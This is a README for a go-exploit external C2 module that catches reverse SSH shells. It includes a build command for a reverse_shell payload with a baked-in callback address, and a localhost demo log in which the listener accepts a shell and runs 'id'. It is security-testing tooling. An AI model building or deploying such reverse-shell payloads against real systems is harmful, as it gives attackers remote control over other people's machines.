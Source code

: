 # External C2: SSH

A [go-exploit](https://github.com/vulncheck-oss/go-exploit) external C2 module that supports reverse SSH shells. It additionally acts as a demonstration of how to integrate external C2 profiles to your favorite payloads. The goal is not to provide a fully weaponized payload with evasion and advanced techniques, but show how to create channels for payloads that *can* implement stronger evasion modules and integrate easily into go-exploit.

## Structure

- The core `c2ssh` package that implements the interfaces and structures for setting up a server to catch SSH payloads
- `./payload` contains the implementation for payloads to be used by an exploit, this is functionally the SSH client and a thin wrapper around exec based around server response
- `./example` contains a self-exploitation test that executes a compiled example payload

## Example usage

1. Compile the payload for use in the exploit to make it accessible to the exploit, this is currently decouple from the framework because you aren't always using Go payloads :)
2. Execute the exploit

```
go build -ldflags "-s -w -X main.Rshost=127.0.0.1 -X main.Rsport=2223" -o reverse_shell
```

```
poptart@grimm $ go run example/exploit.go -lhost 127.0.0.1 -lport 2222 -rhost 127.0.0.1 -rport 1337 -e -fll DEBUG -ell DEBUG -t 0
time=2024-08-06T12:09:02.762-06:00 level=DEBUG msg="Using the HTTP User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
time=2024-08-06T12:09:02.763-06:00 level=STATUS msg="Starting target" index=0 host=127.0.0.1 port=1337 ssl=false "ssl auto"=false
time=2024-08-06T12:09:02.763-06:00 level=DEBUG msg="External SSH Listener starting: 127.0.0.1:2222"
time=2024-08-06T12:09:02.766-06:00 level=DEBUG msg="SSH: Handshaking for 127.0.0.1:38878"
time=2024-08-06T12:09:02.768-06:00 level=STATUS msg="Active shell SSH: Connection accepted from poptart@127.0.0.1:38878 session: 451e905e22ffbc7ab6235ad73379eeea2c65ba532405d81a431e1c5159ba1179 (SSH-2.0-OpenSSH_9.7)"
id
time=2024-08-06T12:09:04.725-06:00 level=STATUS msg="Running command on SSH client: 'id'"
time=2024-08-06T12:09:08.812-06:00 level=SUCCESS msg="uid=1000(poptart) gid=100(users) groups=100(users),1(wheel),67(libvirtd)\n"
```
